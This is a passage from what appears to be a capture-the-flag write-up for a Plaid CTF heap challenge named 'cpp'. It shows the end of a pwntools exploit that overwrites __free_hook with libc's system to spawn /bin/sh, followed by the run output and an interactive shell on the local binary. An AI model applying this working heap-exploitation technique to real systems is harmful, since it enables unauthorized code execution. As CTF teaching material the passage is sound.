 ```
add("1", p64(libcBase + libc.symbols["system"]))

# Execute system("/bin/sh")
# Buf string is passed to free, which we overwrote __free_hook with system
target.sendline("1")
target.recvuntil("name: ")
target.sendline("guyinatuxedo")
target.recvuntil("buf: ")
target.sendline("/bin/sh")

# Drop to an interactive shell
target.interactive()
```

When we run it:

```
$ python exploit.py 
[+] Starting local process './cpp': pid 7088
[*] running in new terminal: /usr/bin/gdb -q  "./cpp" 7088 -x "/tmp/pwnVOLutL.gdb"
[+] Waiting for debugger: Done
[*] '/Hackery/plaid19/cpp/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1. Add
2. Remove
3. View
4. Exit

. . .

1. Add
2. Remove
3. View
4. Exit

Choice: name: buf:
 Done!

1. Add
2. Remove
3. View
4. Exit

Choice: name: buf:
 sh: 1: @D\x0f#W\x7f: not found
Done!
[*] Switching to interactive mode
$ w
 00:48:38 up  7:54,  1 user,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16:54   ?xdm?   2:47   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  glibc-2.27.tar.gz  solve.py
cpp   glibc-2.27  libc-2.27.so         try.py
```
